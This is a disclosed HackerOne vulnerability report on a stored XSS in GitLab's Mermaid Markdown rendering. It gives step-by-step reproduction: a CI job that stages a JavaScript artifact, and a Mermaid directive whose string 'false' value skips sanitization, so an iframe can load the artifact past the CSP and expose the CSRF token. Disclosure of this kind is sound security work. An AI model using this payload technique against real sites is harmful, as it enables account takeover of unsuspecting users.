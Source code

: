 # Stored XSS in Mermaid when viewing Markdown files

## Report Details
- **Report ID**: 1212822
- **URL**: https://hackerone.com/reports/1212822
- **State**: Closed
- **Severity**: high
- **Submitted**: 2021-05-30T01:49:50.159Z
- **Disclosed**: 2021-10-18T06:00:36.580Z

## Reporter
- **Username**: saleemrashid
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
### Summary

GitLab's Mermaid configuration allows an attacker to inject HTML in the rendered Markdown. This can be combined with a CSP bypass using pipeline artifacts to achieve RCE.

### Steps to reproduce

1. Create a repository on GitLab.com

2. Add the following to `.gitlab-ci.yml`

```yaml
---
job:
  script:
  - "echo 'alert(parent.document.querySelector(\"meta[name=csrf-token]\").outerHTML)' > exploit.js"
  artifacts:
    paths:
    - exploit.js
```

3. Wait for the pipeline to finish and record the job ID

4. Add the following to `README.md`, changing the project name (`saleemrashid/mermaid-exploit-7032e404`) and job ID (`1303935016`) accordingly

~~~
```mermaid
%%{init: {"flowchart": {"htmlLabels": "false"}} }%%
flowchart
  A["<iframe srcdoc='<script src=https://gitlab.com/api/v4/projects/saleemrashid%2Fmermaid-exploit-7032e404/jobs/1303935016/artifacts/exploit.js></script>'></iframe>"]
```
~~~

5. Open `README.md` (or any page that renders it, including the project overview page), and observe the alert containing the CSRF token (e.g. `<meta name="csrf-token" content="XXXXXX">`) caused by executing `exploit.js`

### Impact

Because the XSS leads to code execution as the authenticated user, this allows full account take-over without user interaction.

### Examples

Private project on GitLab.com https://gitlab.com/saleemrashid/mermaid-exploit-7032e404

### What is the current *bug* behavior?

Mermaid supports HTML labels when `flowchart.htmlLabels` is enabled and `securityLevel` is not `strict`. GitLab's configuration disables this functionality https://gitlab.com/gitlab-org/gitlab/-/blob/v13.12.1-ee/app/assets/javascripts/behaviors/markdown/render_mermaid.js#L40-52

```javascript
  mermaid.initialize({
    // mermaid core options
    mermaid: {
      startOnLoad: false,
    },
    // mermaidAPI options
    theme,
    flowchart: {
      useMaxWidth: true,
      htmlLabels: false,
    },
    securityLevel: 'strict',
  });
```

However, Mermaid also supports directives (https://mermaid-js.github.io/mermaid/#/directives) to alter the configuration. For security reasons, these directives aren't able to override certain configuration options https://github.com/mermaid-js/mermaid/blob/8.9.2/src/defaultConfig.js#L114-L120

```javascript
  /**
   * This option controls which currentConfig keys are considered _secure_ and can only be changed via
   * call to mermaidAPI.initialize. Calls to mermaidAPI.reinitialize cannot make changes to
   * the `secure` keys in the current currentConfig. This prevents malicious graph directives from
   * overriding a site's default security.
   */
  secure: ['secure', 'securityLevel', 'startOnLoad', 'maxTextSize'],
```

While you can't override `securityLevel`, it turns out that overriding `flowchart.htmlLabels` to `"false"` (specifically the string, not the boolean) is sufficient to bypass the sanitization https://github.com/mermaid-js/mermaid/blob/8.9.2/src/diagrams/common/common.js#L34-L54

```javascript
  let htmlLabels = true;
  if (
    config.flowchart &&
    (config.flowchart.htmlLabels === false || config.flowchart.htmlLabels === 'false')
  ) {
    htmlLabels = false;
  }

  if (htmlLabels) {
    const level = config.securityLevel;

    if (level === 'antiscript') {
      txt = removeScript(txt);
    } else if (level !== 'loose') {
      // eslint-disable-line
      txt = breakToPlaceholder(txt);
      txt = txt.replace(/</g, '&lt;').replace(/>/g, '&gt;');
      txt = txt.replace(/=/g, '&equals;');
      txt = placeholderToBreak(txt);
    }
  }
```

The above code will not sanitize the label if `flowchart.htmlLabels` is set to `false` or `"false"`. It seems like the intention is to not sanitize the label if it's going to be rendered as text, which makes sense. However, the code that actually decides whether to render it as HTML or text always uses `if (config.flowchart.htmlLabels)`, which would succeed for the string `"false"` (because it's truthy). This means the sanitization is bypassed, but the string is still rendered as HTML, resulting in XSS.

To make use of the XSS, we need to bypass the CSP:

```
script-src 'self' 'unsafe-inline' 'unsafe-eval' https://assets.gitlab-static.net https://www.google.com/recaptcha/ https://www.gstatic.com/recaptcha/ https://www.recaptcha.net/ https://apis.google.com 'nonce-<nonce>'
```

Using nonces causes the browser to ignore `'unsafe-inline'`, so we can't use inline scripts. However, we can take advantage of the fact that Workhorse will serve pipeline artifacts with an auto-detected `Content-Type` based on the file extension https://gitlab.com/gitlab-org/gitlab/-/blob/v13.12.1-ee/workhorse/internal/artifacts/entry.go#L98-101

```go
	// Write http headers about the file
	headers.Set("Content-Length", contentLength)
	headers.Set("Content-Type", detectFileContentType(fileName))
	headers.Set("Content-Disposition", "attachment; filename=\""+escapeQuotes(basename)+"\"")
```

The `Content-Disposition` header prevents this from being used for HTML/SVG-based XSS, but it still allows pipeline artifacts to be used as scripts or stylesheets. Because they are on the same domain, they satisfy `'self'` in the CSP policy.

Finally, RCE can be achieved by using the XSS to inject the following HTML, executing a pipeline artifact as JavaScript (`<iframe srcdoc>` is used because you can't directly inject a `<script>` tag with `innerHTML`). This example refers to an artifact on a private repository to maintain responsible disclosure, but you would enable public pipelines for an actual exploit (or add an access token to the URL) so the artifact is accessible by any user.

```html
<iframe srcdoc='<script src=https://gitlab.com/api/v4/projects/saleemrashid%2Fmermaid-exploit-7032e404/jobs/1303935016/artifacts/exploit.js></script>
```

### What is the expected *correct* behavior?

Mermaid should not allow HTML injection. While configuration changes and upstream bugfixes could improve the situation, it might be prudent to move Mermaid into a sandboxed `iframe` to avoid future vulnerabilities. For example, it also supports specifying `themeCSS` (which I attempted to use for a CSS exfiltration attack, but it wasn't practical to exfiltrate more than a few characters because the CSP didn't allow to `@import` files from an external server).

Additionally, Workhorse serving artifacts with dangerous `Content-Type` headers might not be secure behavior because it allows to bypass the CSP.

### Output of checks

This bug happens on GitLab.com

## Impact

Because the XSS leads to code execution as the authenticated user, this allows full account take-over without user interaction.

## Attachments
- csrf.png
